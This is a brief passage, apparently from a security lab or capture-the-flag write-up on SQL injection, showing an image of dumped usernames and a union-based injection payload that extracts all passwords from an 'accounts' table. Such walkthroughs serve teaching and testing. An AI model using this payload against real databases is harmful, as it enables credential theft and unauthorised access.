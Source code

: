 ![sqli-hex-accounts-username](./images/sqli-hex-accounts-username.png)

Similarly, the passwords can be dumped using the payload, `514 union select group_concat(password) from accounts --`
